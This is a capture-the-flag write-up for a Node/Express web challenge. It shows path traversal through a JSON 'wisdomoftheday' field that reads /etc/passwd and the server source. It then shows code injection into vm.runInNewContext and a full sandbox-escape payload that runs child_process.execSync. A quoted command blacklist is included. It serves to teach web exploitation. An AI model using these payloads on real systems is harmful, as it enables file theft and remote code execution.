

# Wisdom of master Oogway
Huge shoutout to the author (rayhan0x01) who created this challenge, had a blast and gained a bunch of wisdom from it!

- [Wisdom_0x01 (50)](#wisdom0x01-50)
- [Wisdom_0x02 (150)](#wisdom0x02-150)

# Wisdom_0x01 (50)
Really fun challenge, you start off with a blank webpage, not much else.


There is one button to interact with, everytime you click it it fetches a new Oogway quote.



Taking a look at the request being sent we see that a POST request is sent to get the wisdom quote.
```
POST /api/wisdom HTTP/1.1
Host: wisdom.threatsims.com:8076
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://wisdom.threatsims.com:8076/
Content-Type: application/json
Origin: http://wisdom.threatsims.com:8076
Content-Length: 26
Connection: close

{"wisdomoftheday":"3.csv"}
```

Looking at the code that executes a getWisdom() function:
```
async function getWisdom() {

    const wisdom = document.getElementById('wisdom');
    const draw = randomIntFromInterval(1,9);

    res = await fetch('/api/wisdom', {
        method: 'POST',
        body: JSON.stringify({
            wisdomoftheday: `${draw}.csv`
        }),
        headers: {
            'Content-Type': 'application/json'
        }
    });
    
    data = await res.json();

    if (data) {
        wisdom.innerHTML = `<h3>${data.message}</h3>`;
    } 
}
```

We can see that it gets a random number and then tries to grab that number. We also notice that if we get any number outside of that range we are met with a response that says:

`{"message":"You are not believing yet! You must believe!"}`

So the first thing I tried was to increase the csv number to see if there was maybe a number that was super high that possibly had the number in it with no luck.

Since the extension `.csv` was also included in the request, I though that it might be vulnerable to directory traversal.

`{"message":"./1.csv"}`

Going along with the idea of a directory trabersal we try a common file which gave us the file:

`{"message": "../etc/passwd"}`
```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000:Linux User,,,:/home/node:/bin/sh
```

So now we have directory traversal, but how do we get the flag?

After playing around with the json for a bit I run into an error:
```
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="utf-8">
        <title>Error</title>
        </head>
    <body>
        <pre>SyntaxError: Unexpected end of JSON input<br>
        &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br>
        &nbsp; &nbsp;at parse (/var/www/html/node_modules/body-parser/lib/types/json.js:89:19)<br>
        &nbsp; &nbsp;at /var/www/html/node_modules/body-parser/lib/read.js:121:18<br>
        &nbsp; &nbsp;at invokeCallback (/var/www/html/node_modules/raw-body/index.js:224:16)<br>
        &nbsp; &nbsp;at done (/var/www/html/node_modules/raw-body/index.js:213:7)<br>
        &nbsp; &nbsp;at IncomingMessage.onEnd (/var/www/html/node_modules/raw-body/index.js:273:7)<br>
        &nbsp; &nbsp;at emitNone (events.js:106:13)<br>
        &nbsp; &nbsp;at IncomingMessage.emit (events.js:208:7)<br>
        &nbsp; &nbsp;at endReadableNT (_stream_readable.js:1064:12)<br>
        &nbsp; &nbsp;at _combinedTickCallback (internal/process/next_tick.js:139:11)</pre>
    </body>
</html>
```

From this error we can see that there is an express.js server that it running and a decent amount of the filepath to go ahead and take a few guesses at where the source code is.

Sending this request gives you some of the source code from the server

`{"wisdomoftheday":"../var/www/html/index.js"}`
```
const express = require('express');
const app = express();
const bodyParser = require('body-parser');
const routes = require('./routes/index.js');
const path = require('path');
const flag1 = \"flag{s33ing_i5_beli3v1ng}\"

app.use(bodyParser.json());
app.use(bodyParser.urlencoded({
    extended: true
}));
app.set('views', './views');
app.use('/static', express.static(path.resolve('static')));

app.use('/', routes);

app.all('*', (req, res) => {
    return res.status(404).send({
        \"404\": 'You must believe!'
    });
});

(async () => {
    app.listen(8076, () => console.log('Listening on port 8076'));
})();
```

Which gives us `flag{s33ing_i5_beli3v1ng}`

<br />

# Wisdom_0x02 (150)

For this challenge we were told to execute /opt/get_scroll.bin

After getting some of the source code we see something interesting, that there is some more data over at

`./routes/index.js`

Plugging that into our POST request we get this:

`{"wisdomoftheday":"../var/www/html/routes/index.js"}`
```
const path              = require('path');
const fs                = require('fs');
const express           = require('express');
const vm                = require('vm');
const router            = express.Router();
const bodyParser = require('body-parser');

const response = data => ({ message: data });

router.get('/', (req, res) => {
	return res.sendFile(path.resolve('views/index.html'));
});


router.post('/api/wisdom', (req, res) => {
	let wisdomoftheday = req.body.wisdomoftheday;

	if (wisdomoftheday) {
		fs.readFile(`/wisdoms/${wisdomoftheday}`, 'utf8', function (err, data) { 
			if (err) {
				return res.send(response('You are not believing yet! You must believe!'));
			} else{
				return res.send(response(data));
			}
		});
	} else{
		return res.send(response('Missing parameters'));
	}
});	

// This feature is under development, once completed a view shall be created to calculate Chi
/* We heard eval is dangerous so we don't use it anymore
* TODO: improve blacklist check
* POST /api/get_chi
* {\"energy\": 40}
*/

function validate(energy){
	let blacklist = ['python','bash','sh','|','$','`','-e','-i','-c','kill','exit','wait','setTimeout','await','reallyExit'];
	match = energy;
	for(i=0; i < blacklist.length; i++ ){
		if(energy.includes(blacklist[i])){
			match = 1;
		}
	}

	return match;
}

router.post('/api/get_chi', (req, res) =>{
	let energy = req.body.energy;

	if(energy){
		energy = validate(energy);
		let kungfu_realm = {belief: function(){ return Math.floor(Math.random() * 100)}}
		let get_chi = 'hero_chi';
		let calc_chi = get_chi + ' = ' + 'belief() * ' + energy + ';';

		kungfu_realm[get_chi] = {};
		vm.runInNewContext(calc_chi,kungfu_realm);

		return res.send({chi: kungfu_realm[get_chi]});
	}else{
		return res.send(('Missing parameters'));
	}
});

module.exports = router;
```

This code looks to be taking our energy value, multiplying it by a random number and giving it back to us. It is doing all of this in a nodeJS VM. We can see this if we sent a request:

`POST "/api/get_chi" with {"energy": 40}`

```
POST /api/get_chi HTTP/1.1
Host: wisdom.threatsims.com:8076
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://wisdom.threatsims.com:8076/
Content-Type: application/json
Origin: http://wisdom.threatsims.com:8076
Content-Length: 18
Connection: close

{"energy": "40"}
```

This returns the value:

`{"chi":1920}`

Looking at the code closer, it looks like we can manipulate things a bit. Instead of a random value, we can directly assign our chi value:

`{"energy": "1; hero_chi = 9001"}`

Which returns

`{"chi":9001}`

This shows us that we have some remote code execution on the server. Now that we have this foothold we can start looking at out to execute that binary.

We could simply do this:

`require('child_process').execSync('/opt/get_scroll.bin');`

However since we are inside the context of the VM we are stuck using the functions inside of the given context which isn't much. Or are we? Looking more into "NodeJs VM Vulnerabilities" we can find a [really good guide](https://thegoodhacker.com/posts/the-unsecure-node-vm-module/) on breaking out of the sandbox. 

With this we can create a payload that will break out of the sandbox by pulling an anonymous function, and run code that will let us execute the binary:

`{"energy":"1; hero_chi = this.constructor.constructor(\"return process.mainModule.require('child_process').execSync('/opt/get_scroll.bin',{encoding:'utf-8'})\")()"}`

Which returns the flag!

`{"chi":"flag{believe_1n_y0urs3lf}"}`
